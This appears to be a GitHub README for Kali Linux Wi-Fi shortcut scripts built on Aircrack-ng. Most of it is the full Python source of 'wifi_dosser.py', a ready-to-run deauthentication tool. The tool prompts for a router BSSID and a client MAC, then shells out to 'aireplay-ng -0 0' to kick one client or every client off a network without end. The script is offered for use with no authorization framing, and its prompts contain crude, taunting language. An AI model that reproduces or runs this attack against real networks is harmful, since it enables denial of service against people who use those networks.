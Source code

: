 # Kali-Linux-Wifi-Short-Cut-Scripts
These scripts consist of an easier, shorter way to do things via wireless attacks using Aircrack-ng suite of network tools. Make sure to give credit to Thomas d'Otreppe de Bouvette for original code. These are just short cuts, without having to pass in commands.

#files included
For Scanning network traffic
-------------------------------------
FILE: __wifi_scanner.py__

USE: Scan *most traffic* on specified NIC using airodump-ng (monitor mode must be enabled, may give error on NIC with promiscuous mode enabled)



For Scanning traffic specific network
--------------------------------------
FILE: __get_client.py__

USE: Scan *most traffic* on specified network using airodump-ng (monitor mode must be enabled, may give error on NIC with promiscuous mode enabled)

This can be used to *directly monitor* 802.11


For Deauthentication attacks (IEEE 802.11) NOTE: *IEEE 802.11w is more secure!*
--------------------------------------
FILE: [__wifi_dosser.py__](Kali-Linux-Wifi-Short-Cut-Scripts/wifi_dosser.py)

USE: Send deauthentication packets to client connected to router, or to all clients on router



```python
import time
import subprocess
from datetime import datetime

#start program
class DeauthenticationAttack:
	def __init__(self, option, mac_address, kick_client, kick_all, iface, router_bssid_one, router_bssid_two, iface_one, iface_two):
		self.option = option
		self.mac_address
		self.kick_client = kick_client
		self.kick_all = kick_all
		self.iface = iface
		self.router_bssid_one = router_bssid_one
		self.router_bssid_two = router_bssid_two
		self.iface_one = iface_one
		self.iface_two = iface_two

	@classmethod
	def kick_client_from_router(cls):
		cls.router_bssid_one = raw_input('[+] Enter BSSID of router: ')
		print('[+] Router MAC address set to: {}'.format(cls.router_bssid_one))
		time.sleep(2)
		cls.kick_client = raw_input('[+] Enter client MAC address to kick: ')
		print('[+] Client MAC address set to: {}'.format(cls.kick_client))
		cls.iface_one = raw_input('[+] Enter interface')
		print('[+] Interface set to: {}'.format(cls.iface_one))
		launch_attack = raw_input('[+] Attack ready to launch! Launch attack(y/n): ')
		if(launch_attack == 'y') or (launch_attack == 'yes'):
			print('[+] Shits about to get realz...')
			time.sleep(3)
			launch_dos_attack = 'aireplay-ng -0 0 -a {} -c {} {}'.format(cls.router_bssid_one, cls.kick_client,
															cls.iface_one)
			subprocess.call(launch_dos_attack, shell=True)
		elif(launch_attack == 'n') or (launch_attack == 'no'):
			print('[+] Ahh what a waste of time you sissy ass bitch! Bye...dont come back \#LuLz')
			time.sleep(3)
			exit()
	@classmethod
	def kick_all_from_router(cls):
		cls.router_bssid_two = raw_input('[+] Enter BSSID of router: ')
		cls.iface_two = raw_input('[+] Enter interface to use: ')
		print('[+] Interface set to: {}'.format(cls.iface_two))
		launch_the_attack = raw_input('[+] Attack ready to launch! Launch attack(y/n): ')
		if(launch_the_attack == 'y') or (launch_the_attack == 'yes'):
			print('[+] Shits about to get realz...')
			time.sleep(3)
			launch_da_dos_attack = 'aireplay-ng -0 0 -a {} {}'.format(cls.router_bssid_two, cls.iface_two)
			subprocess.call(launch_da_dos_attack, shell=True)

	@classmethod
	def get_option(cls):
		print(""" 
		Wifi Dosser v0.1
		---------------------------
		1.) Kick a client
		2.) Kick all from router
		""")
		cls.option = raw_input('[+] Select an option from above: ')
		if(cls.option == str(1)):
			print('[+] Option set to: 1')
			time.sleep(2)
			DeauthenticationAttack.kick_client_from_router()
		elif(cls.option == str(2)):
			print('[+] Option set to: 2')
			time.sleep(2)
			DeauthenticationAttack.kick_all_from_router()



DeauthenticationAttack.get_option()











#end program
```

